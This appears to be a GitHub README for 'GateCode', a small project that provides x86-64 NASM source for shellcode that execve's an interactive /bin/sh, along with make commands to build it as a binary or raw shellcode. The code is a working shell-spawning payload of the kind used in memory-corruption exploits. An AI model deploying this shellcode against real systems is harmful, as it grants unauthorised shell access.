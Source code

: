 # GateCode

*universal method of executing system commands*

GateCode is a method of executing system commands through shellcodes and nasm executables.

## Explaining

```nasm
;
;  payload.nasm
;  GateCode
;
;  Created by The Gate Group on 2020.
;  Copyright © 2020 The Gate Group. All rights reserved.
;

; program entry point

section .text
global _start
_start:
	 mov rax, 59         ; call execve
	 lea rdi, [rel cmd]  ; command
	 lea rsi, [rel args] ; command args
	 xor rdx, rdx        ; envp
	 syscall             ; call execve

; program (read-only data) constants

section .rodata
align 8              ; enforce alignment
args dq cmd, arg1, 0 ; merge all command with arguments
arg1 db '-i', 0      ; initialize argument number 1
cmd  db '/bin/sh', 0 ; initialize command
```

## Usage

**Get payload:**

```
make payload
./payload
```

**Get shellcode:**

```
make shellcode
```
